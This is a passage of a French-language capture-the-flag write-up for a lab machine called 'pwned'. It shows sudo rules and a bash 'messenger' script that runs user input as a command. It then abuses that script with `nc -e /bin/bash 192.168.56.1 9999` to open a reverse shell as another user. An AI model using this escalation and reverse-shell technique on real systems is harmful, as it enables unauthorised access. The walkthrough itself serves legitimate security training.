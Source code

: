 ## This message will execute in 3 seconds

> Its Ariana personal Diary :::  
> 
> Today Selena fight with me for Ajay. so i opened her hidden_text on server. now she resposible for the issue.

Le compte `ariana` est autorisé à exécuter un script bash avec le compte `selena` :

```console
ariana@pwned:~$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
ariana@pwned:~$ ls -l /home/messenger.sh
-rwxr-xr-x 1 root root 367 Jul 10  2020 /home/messenger.sh
ariana@pwned:~$ cat /home/messenger.sh
#!/bin/bash

clear
echo "Welcome to linux.messenger "
                echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
                echo ""
echo "$users"
                echo ""
read -p "Enter username to send message : " name 
                echo ""
read -p "Enter message for $name :" msg
                echo ""
echo "Sending message to $name "

$msg 2> /dev/null

                echo ""
echo "Message sent to $name :) "
                echo ""

```

On voit que la variable `$msg` est exécutée comme une commande. Une fois le script lancé (`sudo -u selena /home/messenger.sh`) on peut remplir le formulaire :

```
Welcome to linux.messenger 


ariana:
selena:
ftpuser:

Enter username to send message : yolo

Enter message for yolo :nc -e /bin/bash 192.168.56.1 9999

Sending message to yolo
```
